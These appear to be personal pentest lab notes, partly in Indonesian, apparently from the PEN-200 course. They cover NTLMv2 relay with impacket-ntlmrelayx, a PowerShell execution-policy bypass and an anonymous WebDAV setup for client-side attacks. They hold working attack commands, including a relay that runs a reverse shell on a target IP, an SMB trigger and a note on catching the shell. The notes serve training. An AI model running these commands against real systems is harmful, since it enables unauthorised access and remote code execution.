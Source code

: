 
# Relaying Net-NTLMv2, RELAY ATTACK, impacket-ntlmrelayx (IMPORTANT)
>> Case: NTLMv2 GK BISA DICRACK, Kalo user yang kita punya hash NTLMv2nya itu adalah Administrator di mesin lain. Kita bisa relay NTLMv2 hashnya ke mesin lain tersebut, jadinya kita dapet akses ke sana.
imagine we obtained the Net-NTLMv2 hash, but couldn't crack it because it was too complex.

>> Case: Hash NTLMv2 user yang kita punya sama dengan Hash NTLMv2 local administrator di mesin lain

-t ini adalah IP mesin tujuannya (mesin_windows_2)

kali > mesin_windows_1 (yg kita dapet ntlmv2nya) > mesin_windows_2 (yg ntlmv2 usernya sama dengan yg kita dapet)

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "<command_to_execute> palingan powershell revshell aja"
```
>> Jadi instead of responder yang cuma nangkep NTLMv2 Hash, `impacket-ntlmrelayx` akan nangkap, dan langsung forward ke mesin target dan execute code.

1. Kita tinggal tringger dari mesin_windows_1. query SMB ke kali kita
```cmd
C:\Windows\system32>dir \\192.168.119.2\test
```
2. Cek netcat or hoaxshell listener kita, udah dapet revshell.

## Powershell Execution Policy
```cmd
powershell -ep bypass
or
Set-ExecutionPolicy -ExecutionPolicy Bypass
```


## Client-side attacks
keywords: Group Policy Object (GPO), 

*Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a .Library-ms file extension and can be executed by double-clicking them in Windows Explorer.*

https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/client-side-attacks/abusing-windows-library-files/obtaining-code-execution-via-windows-library-files
>> Penjelasan detail liat module aja


1. Host webdav within our attacker machine
```bash
pip3 install wsgidav

mkdir webdav
touch webdav/test.txt
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/

http://127.0.0.1/
```
